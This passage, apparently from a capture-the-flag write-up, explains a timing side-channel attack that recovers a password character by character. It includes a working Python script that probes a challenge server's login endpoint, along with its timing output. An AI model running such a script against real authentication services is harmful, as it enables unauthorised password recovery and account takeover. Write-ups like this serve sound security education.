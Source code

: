 The high-level concept is as follows:

1. For each legal character that a password can contain:
   1. Send a request with the current character as the first character of the password and some other random string for the rest of the password
   2. Measure the time it takes for the server to respond
   3. If the server is vulnerable to a timing attack (by comparing the user password to the real password character by character), the time it takes for the server to respond when we send the correct first character will be a bit longer. This is because in this case, the server performs two comparisons (one for the first letter which is successful, and then for the second letter which is probably wrong), while in the common case the server will find out that the password is wrong during the first comparison
   4. After revealing the first letter of the password, repeat the procedure for the rest of the password

We can use the following script as a proof of concept:

```python
import requests
import string
import json

def send_request(payload):
    headers = {'User-Agent': 'iWalk-v2'}
    r = requests.post("http://35.246.158.51:8070/auth/v2", json={"Seed":"12345", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j
    
l = []
for c in string.printable:
    r = send_request(c + "#")
    l.append((r["Time"], c))
print(sorted(l, reverse = True))
```

The result:

```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(163682, 'P'), (156899, '"'), (146783, 'C'), (145022, "'"), (143158, '1'), (139654, 'j'), (139454, 'L'), (135785, '8'), (134824, '9'), (132512, '!'), (131702, '='), (131552, '$'), (131263, '0'), (131155, '@'), (130981, 'N'), (129179, 'b'), (128047, 'E'), (128036, 'G'), (127787, 'h'), (127631, '\x0b'), (127044, 'A'), (126666, 'q'), (126146, 'n'), (125356, ','), (125075, ' '), (124757, 'X'), (124608, 'F'), (124069, 'w'), (124025, 'Y'), (123364, 'm'), (122906, 'g'), (122613, 'u'), (122606, '\t'), (121776, '~'), (121402, '\x0c'), (121275, '.'), (120777, '^'), (120572, '5'), (120426, 'D'), (120388, 'l'), (120097, 'H'), (120018, '?'), (119420, 'J'), (119327, 'r'), (119326, '4'), (119259, 'V'), (119190, 'y'), (118724, 'I'), (118169, '&'), (118157, 'T'), (118114, 'O'), (117913, '`'), (117629, '+'), (117480, 's'), (117362, 'Q'), (116088, '\\'), (116053, '\n'), (115872, 'B'), (115745, '/'), (115344, 'R'), (115142, '7'), (114646, '6'), (114521, 'a'), (114003, 'K'), (113926, 'f'), (113572, '\r'), (113293, 'v'), (113253, 't'), (113185, 'p'), (113152, ')'), (112912, '('), (112414, '|'), (111918, '['), (111859, 'k'), (111699, ':'), (111509, ']'), (111354, 'M'), (111118, '#'), (110780, 'c'), (110737, 'z'), (110175, 'S'), (109707, '3'), (109606, 'e'), (109528, '{'), (109424, '}'), (109305, 'U'), (108920, '-'), (108639, 'Z'), (108453, '_'), (108418, '2'), (108109, '*'), (108038, 'o'), (107736, 'd'), (107513, '<'), (107136, '>'), (106291, '%'), (105649, 'W'), (104954, ';'), (103039, 'i'), (78280, 'x')]
```
